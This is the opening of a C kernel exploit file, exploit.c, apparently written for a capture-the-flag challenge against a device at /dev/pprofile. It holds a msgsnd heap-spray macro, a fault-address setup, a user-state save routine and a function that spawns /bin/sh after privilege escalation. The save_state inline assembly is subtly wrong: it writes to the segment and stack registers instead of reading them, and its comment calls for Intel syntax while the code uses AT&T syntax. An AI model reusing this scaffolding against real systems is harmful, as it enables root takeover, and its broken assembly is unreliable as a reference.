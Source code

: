 ```exploit.c
#include <sys/xattr.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <sys/shm.h>


// commands
#define DEV_PATH "/dev/pprofile"   // the path the device is placed

// constants
#define PAGE 0x1000
#define FAULT_ADDR 0xdead0000UL
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4*PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
// (END constants)

// globals
// (END globals)


// utils
#define WAIT getc(stdin);
#define ulong unsigned long
#define scu static const unsigned long
#define NULL (void*)0
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
#define KMALLOC(qid, msgbuf, N) for(int ix=0; ix!=N; ++ix){\
                        if(msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 0x30, 0) == -1) errExit("KMALLOC");}
ulong user_cs,user_ss,user_sp,user_rflags;
struct pt_regs {
	ulong r15; ulong r14; ulong r13; ulong r12; ulong bp;
	ulong bx;  ulong r11; ulong r10; ulong r9; ulong r8;
	ulong ax; ulong cx; ulong dx; ulong si; ulong di;
	ulong orig_ax; ulong ip; ulong cs; ulong flags;
  ulong sp; ulong ss;
};
void print_regs(struct pt_regs *regs)
{
  printf("r15: %lx r14: %lx r13: %lx r12: %lx\n", regs->r15, regs->r14, regs->r13, regs->r12);
  printf("bp: %lx bx: %lx r11: %lx r10: %lx\n", regs->bp, regs->bx, regs->r11, regs->r10);
  printf("r9: %lx r8: %lx ax: %lx cx: %lx\n", regs->r9, regs->r8, regs->ax, regs->cx);
  printf("dx: %lx si: %lx di: %lx ip: %lx\n", regs->dx, regs->si, regs->di, regs->ip);
  printf("cs: %lx flags: %lx sp: %lx ss: %lx\n", regs->cs, regs->flags, regs->sp, regs->ss);
}
void NIRUGIRI(void)
{
  char *argv[] = {"/bin/sh",NULL};
  char *envp[] = {NULL};
  execve("/bin/sh",argv,envp);
}
// should compile with -masm=intel
static void save_state(void) {
  asm(
      "movq %0, %%cs\n"
      "movq %1, %%ss\n"
      "movq %2, %%rsp\n"
      "pushfq\n"
      "popq %3\n"
      : "=r" (user_cs), "=r" (user_ss), "=r"(user_sp), "=r" (user_rflags) : : "memory" 		);
}
```